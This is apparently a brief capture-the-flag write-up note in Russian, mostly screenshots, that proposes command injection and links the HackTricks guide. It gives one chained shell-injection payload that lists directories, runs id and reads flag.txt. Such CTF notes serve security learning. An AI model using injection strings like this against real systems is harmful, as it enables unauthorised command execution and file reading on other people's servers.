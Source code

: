 
 ![Pasted image 20241216171142](https://github.com/user-attachments/assets/b0ca204b-dba3-4760-adb4-ddd9fe30b96e)


 ![Pasted image 20241216171208](https://github.com/user-attachments/assets/25fe703d-8bb3-4ffd-9df9-8b903854c491)



можно попробовать Command inject (CI) ([Внедрение команд | ХакХитрости](https://book.hacktricks.xyz/pentesting-web/command-injection)) 

![](attachment/20241216171358.png)

ls || id; cd /var/www || id; ls || id; cat flag.txt || id; ls || id; pwd || id
